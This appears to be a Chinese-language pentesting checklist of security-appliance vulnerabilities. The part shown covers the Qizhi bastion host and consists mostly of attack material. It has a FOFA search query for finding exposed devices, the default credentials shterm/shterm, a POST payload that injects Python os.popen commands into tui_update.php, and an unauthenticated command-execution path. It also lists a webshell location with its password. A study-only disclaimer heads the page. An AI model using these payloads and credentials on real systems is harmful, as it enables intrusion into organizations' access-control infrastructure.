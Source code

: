 # 安全设备漏洞 Checklist

# 安全设备漏洞 Checklist

更新时间：2023.06

##### **【免责声明】本项目所涉及的技术、思路和工具仅供学习，任何人不得将其用于非法用途和盈利，不得将其用于非授权渗透测试，否则后果自行承担，与本项目无关。使用本项目前请先阅读 [法律法规](https://github.com/Threekiii/Awesome-Laws)。**

&#x2705; 表示漏洞文档已收录 [Vulnerability-Wiki]( https://github.com/Threekiii/Vulnerability-Wiki) 漏洞库，仅收录2022/2023年部分安全设备，全部 iot 漏洞列表见 [README.md](https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/iot/README.md)。参考阅读：[ffffffff0x/SecDevice-Exploits](https://github.com/ffffffff0x/1earn/blob/master/1earn/Security/RedTeam/%E5%AE%89%E9%98%B2%E8%AE%BE%E5%A4%87/SecDevice-Exploits.md#%E9%BD%90%E6%B2%BB%E5%A0%A1%E5%9E%92%E6%9C%BA)

## 一、身份与访问控制

### 0x01 堡垒机

#### 齐智堡垒机

FOFA：

```
app="齐治科技-堡垒机" 
```

##### 默认口令

```
shterm/shterm
```

##### shterm命令执行 tui.update.php

```
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```

##### 前台命令执行 cluster_manage.php CNVD-2019-20835

访问以下路径，返回 ok：

```
http://10.20.10.11/listener/cluster_manage.php
```

写入webshell：

```
/var/www/shterm/resources/qrcode/lbj77.php  密码10086
```
